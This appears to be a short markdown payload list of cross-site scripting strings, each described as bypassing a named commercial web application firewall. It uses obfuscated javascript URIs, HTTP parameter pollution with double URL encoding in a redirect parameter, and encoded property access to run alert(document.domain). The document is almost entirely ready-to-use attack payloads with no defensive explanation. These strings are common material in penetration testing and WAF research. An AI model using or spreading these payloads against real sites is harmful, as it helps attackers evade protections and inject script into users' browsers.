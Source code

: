 #### A solid XSS payload that bypasses I.m.p.e.r.v.a WAF
```
<a/href="j%0A%0Davascript:{var{3:s,2:h,5:a,0:v,4:n,1:e}='earltv'}[self][0][v+a+e+s](e+s+v+h+n)(/infected/.source)" />click
```
#### Reflected XSS A.k.a.m.i Waf Bypass in Redirect Parameter using HTTP Parameter Pollution and Double URL Encode:
```
/login?ReturnUrl=javascript:1&ReturnUrl=%2561%256c%2565%2572%2574%2528%2564%256f%2563%2575%256d%2565%256e%2574%252e%2564%256f%256d%2561%2569%256e%2529
```
#### C.l.o.u.d.f.l.a.r.e #XSS WAF Bypass by @nav1n0x (Credits)
```
Payload: 
"%2Bself[%2Ffoo%2F'alert'%2Fbar%2F](self[%2Ffoo%2F'document'%2Fbar%2F]['domain'])%2F%2F
```
